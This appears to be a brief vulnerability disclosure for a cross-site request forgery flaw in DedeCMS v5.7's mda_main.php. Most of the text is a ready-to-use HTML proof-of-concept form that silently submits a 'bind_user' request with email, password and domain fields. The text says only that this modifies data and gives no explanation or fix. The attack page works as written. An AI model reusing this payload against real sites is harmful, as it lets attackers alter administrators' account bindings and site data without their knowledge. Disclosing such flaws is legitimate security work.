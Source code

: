 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/mda_main.php
![1](https://github.com/Xin246/cms/assets/160984304/08c6819f-f909-477a-b202-15af7934d43c)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/mda_main.php?" method="POST">
      <input type="hidden" name="dopost" value="bind&#95;user" />
      <input type="hidden" name="email" value="cs&#64;123&#46;com" />
      <input type="hidden" name="pwd" value="Qwer1234" />
      <input type="hidden" name="domain" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="channel&#95;name" value="�&#136;&#145;�&#154;&#132;�&#189;&#145;�&#171;&#153;" />
      <input type="hidden" name="imageField1&#46;x" value="28" />
      <input type="hidden" name="imageField1&#46;y" value="10" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![2](https://github.com/Xin246/cms/assets/160984304/79ca62e0-4794-406e-9124-be9919df7079)



This operation can complete the modification of the data
